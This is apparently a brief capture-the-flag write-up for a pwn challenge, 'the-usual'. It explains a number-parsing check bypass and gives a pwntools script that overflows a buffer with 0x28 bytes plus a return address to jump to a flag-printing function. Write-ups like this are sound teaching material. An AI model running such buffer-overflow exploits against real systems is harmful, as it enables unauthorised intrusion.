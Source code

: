 # the-usual

```
points: 447
text: In the heart of a bustling medieval market, a burly Viking with a formidable beard and weathered armor stumbles upon a peculiar sight—a vibrant flag shop adorned with banners of every hue. Intrigued by the fluttering colors, he enters the shop, his towering frame contrasting with the delicate textiles. With a mix of curiosity and confusion, he marvels at the array of flags, pondering which one might best represent his warrior clan amidst the sea of symbols and sigils.

nc 35.94.129.106 3008

```
we can see that the only spot where we can do an overflow is in the function **print_stand**, to execute it we need to buy the 3rd element

we dont have enough money tho!

to buy it we need to look at the **read_uint** function

![alt text](./the-usual.png)
###### i aint readin allat ######

for some magical reason ```stroul("0anystring",0LL,10)``` returns 0 but passes all the checks

now inside the **print_stand** function we can do a ret to win to **print_flag**

```py
from pwn import *

r = remote("35.94.129.106", 3008)

r.sendline(b"3")
r.sendline(b"0 M0NT3C4RL0 F7W")
ret = p64(0x0000000000401557)
r.send(b"a"*0x28+ret)
r.interactive()
```